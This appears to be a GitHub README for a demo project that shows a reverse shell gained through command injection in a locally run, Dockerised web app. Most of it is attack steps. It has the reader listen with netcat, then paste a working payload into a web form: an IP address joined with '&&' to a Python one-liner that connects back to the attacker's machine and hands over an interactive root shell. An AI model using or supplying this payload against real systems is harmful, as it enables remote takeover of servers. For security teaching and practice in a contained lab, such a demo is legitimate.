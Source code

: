 ## What is this?
A quick demo of a reverse shell.

## How do I use it?

****Note: If you don't have Docker installed, you can install it [here](https://www.docker.com/).**

1. Install dependancies: ```npm i```

2. Build the docker image: ```npm run docker:build```

3. Run the docker image: ```npm run docker:start```

4. Go [here](http://localhost:3000/) in your web browser.

5. Listen to port 9999 on your computer: ```nc -l 9999```

6. Put this in the input field on the webpage (change where it says "CHANGE ME" to your computer's IP): ```127.0.0.1 && python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("CHANGE ME",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

7. Press submit in the webpage and check your terminal where you entered the command in step 5. 
    - You can type ```whoami``` to check if it worked. You should see "root"
